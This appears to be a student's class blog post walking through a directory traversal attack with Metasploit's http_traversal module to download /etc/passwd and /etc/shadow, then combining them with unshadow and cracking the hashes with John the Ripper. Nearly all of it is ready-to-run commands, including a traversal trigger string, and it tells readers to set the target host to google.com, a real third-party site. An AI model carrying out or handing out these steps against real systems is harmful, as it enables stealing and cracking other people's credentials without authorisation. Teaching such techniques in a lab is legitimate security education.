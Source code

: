```yaml
---
layout: post
title:  "Blog 4: Cracking Directory Passwords"
date:   2021-03-26 01:51:40 -0700
categories: Blog Class
---
```


The Metasploit auxiliary module that you can use requires a file list to know which files to download from the compromised system. We are using the URL encoding to replace "/" with "%2f":

    cat > files.txt
    etc%2fpasswd
    etc%2fshadow


Next, let's select the Generic HTTP Directory Traversal Utility module. It checks the targets for the directory traversal vulnerability, and depending on the selected option, can download specific files or check if it is possible to write files outside of the www directory. Select the module as follows:

	    msfconsole ---- to start the metasploit platform
      use auxiliary/scanner/http/http_traversal

The first two that you need to complete are: 

   `1) RHOSTS` for remote (target) host(s) and RPORT for the target port (which is set to 80 by default). 
   
   `2) TRIGGER` is for the path that triggers the vulnerability.
   
   `3) ACTION` which in our case is DOWNLOAD.
   
   `4) FILELIST` which specifies the list of files to download. 
   
   
   Set the options exactly as shown below: 
   
      set RHOSTS google.com

      set RPORT 8080

      set TRIGGER ..%2f..%2f..%2f..%2f..%2f..%2f..%2f

      set ACTION DOWNLOAD

      set FILELIST files.txt
      
Use `unshadow` as follows, specifying files downloaded by the Metasploit module. The format is unshadow PASSWDFILE SHADOWFILE, in that order, so make sure you are entering the correct file names. The yyyymmddhhmmss part is the timestamp, and xxxxxx and yyyyyy are numeric identifiers, which will be different for the* /etc/passwd* and /etc/shadow. We are saving the new file as passwords.

    sudo unshadow .msf4/loot/*yyyymmddhhmmss*_default_127.0.0.1_lfi.data_*xxxxxx*.txt  .msf4/loot/*yyyymmddhhmmss*_default_127.0.0.1_lfi.data_*yyyyyy*.txt > passwords

Let's view the new file and it should contain the uncracked passwords.

    cat passwords

Issue the following command to use John The Ripper with our passwords file to crack the passwords and done:

	sudo john passwords


